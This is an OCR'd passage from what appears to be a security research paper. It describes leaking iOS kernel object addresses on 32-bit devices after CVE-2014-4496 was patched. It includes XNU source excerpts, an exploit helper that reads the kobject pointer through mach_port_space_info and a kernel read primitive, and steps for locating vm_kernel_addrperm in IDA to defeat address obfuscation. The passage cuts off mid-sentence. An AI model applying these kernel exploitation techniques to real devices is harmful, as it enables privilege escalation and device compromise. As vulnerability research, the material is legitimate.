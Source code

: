 kern_return_t

mach_port_kobject(

ipc_space_t

space,

mach_port_name_t

name,

natural_t

*typep,

mach_vm_address_t

*addrp) {

..................

*addrp = VM_KERNEL_ADDRPERM(VM_KERNEL_UNSLIDE(kaddr));

..................

}

#define VM_KERNEL_ADDRPERM(_v) \

(((vm_offset_t)(_v) == 0) ? \

(vm_offset_t)(0) :

\

(vm_offset_t)(_v) + vm_kernel_addrperm)

TextBlock 12

But after CVE-2014-4496 patching in iOS 8.1.3, the mach_port_kobject() interface is disabled, then we need to find another effective way to get the Mach Port address of IOUserClient subclass object. Here we do find another interface mach_port_space_info() to implement this function in 32-bit devices, through a well-crafted method as detailed in TextBlock 13. Also, the returned obaddress is obfuscated with vm_kernel_addperm.

vm_address_t cr_mach_port_kobject(vm_address_t portname) { ipc_info_space_t info; ipc_info_name_array_t table = 0; mach_msg_type_number_t tableCount = 0; ipc_info_tree_name_array_t tree = 0; mach_msg_type_number_t treeCount = 0; vm_address_t obaddress = 0; mach_port_space_info(mach_task_self(), &info, &table, &tableCount,
&tree, &treeCount); for( int index = 0 ; index < tableCount ; index++ ) { ipc_info_name_t info = table[index]; if(portname == info.iin_name) { obaddress = info.iin_object; } }
//obaddress is the address of structure ipc_port. By adding offset //0x44,we can get ipc_kobject_t kobject in 32-bit devices.
return CRReadAtAddress(obaddress+0x44); }
TextBlock 13
vm_kernel_addperm is a global static variable in the kernel, which is assigned in the device booting and unreadable and unwritable in user mode. Thus, we need to find a kernel code segment which uses Function VM_KERNEL_ADDRPERM() and has a unique characteristic to be easily located in the kernel. Here Function IOGeneralMemoryDescriptor::wireVirtual() is selected, whose code snippet is shown in TextBlock 14, by reasons that: (1) String "IOMemoryDescriptor 0x%lx prepared read only" is a unique characteristic, and only
appears in this function in the whole kernel. (2) VM_KERNEL_ADDRPERM() is used in this function, i.e. vm_kernel_addperm.
IOReturn IOGeneralMemoryDescriptor::wireVirtual(IODirection forDirection) {
.................. OSReportWithBacktrace("IOMemoryDescriptor 0x%lx prepared read only", VM_KERNEL_ADDRPERM(this));
..................}
TextBlock 14
Then we search the characteristic string "IOMemoryDescriptor 0x%lx prepared read only" in the IDA workspace to locate Function OSReportWithBacktrace(), and analyze the 2nd parameter VM_KERNEL_ADDRPERM(this) of this function to locate the kernel address of vm_kernel_ad-
